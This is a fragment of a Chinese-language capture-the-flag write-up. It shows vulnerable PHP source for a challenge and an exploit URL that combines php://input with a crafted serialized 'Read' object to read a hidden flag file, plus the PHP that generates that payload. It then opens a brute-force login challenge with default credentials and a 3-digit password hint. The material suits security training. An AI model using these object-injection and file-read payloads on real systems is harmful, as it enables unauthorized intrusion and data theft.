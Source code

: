 ```php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}
 
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
view-source:http://123.206.31.85:10021/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
admin
```php
<?php
class Read{//f1a9.php      
	public $file;      
	public function __toString(){          
		if(isset($this->file)){              
			echo file_get_contents($this->file); 
		}          
		return "__toString was called!";      
	}  
}
$a = new Read();
$a->file = 'f1a9.php';
echo serialize($a);
?>
```



# web23 `爆破`
http://123.206.31.85:10023/
http://123.206.31.85:10023/robots.txt
http://123.206.31.85:10023/readme.txt
```
网站默认登录用户名和密码为
admin
123

用户登录后可自行修改密码
密码只支持3位数字


你也想学php验证码啊

http://123.206.31.85:10023/1.png
```
http://123.206.31.85:10023/admin/login.php
http://123.206.31.85:10023/admin/login.html